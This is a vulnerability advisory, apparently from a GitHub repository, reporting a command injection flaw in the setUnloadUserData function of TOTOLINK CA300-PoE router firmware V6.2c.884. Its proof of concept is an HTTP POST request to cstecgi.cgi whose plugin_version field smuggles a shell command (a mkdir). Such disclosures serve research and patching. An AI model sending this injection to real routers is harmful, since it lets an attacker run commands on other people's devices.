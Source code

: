 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the plugin_version parameter in the function setUnloadUserData

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setUnloadUserData`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" : "setting/setUnloadUserData", "plugin_version": "|mkdir /setUnloadUserData_2222;"}
```

Folder created successfully

![image-20230113110150511](images/3.png)

![image-20230113110232520](images/4.png)

![image-20230113125903358](images/5.png)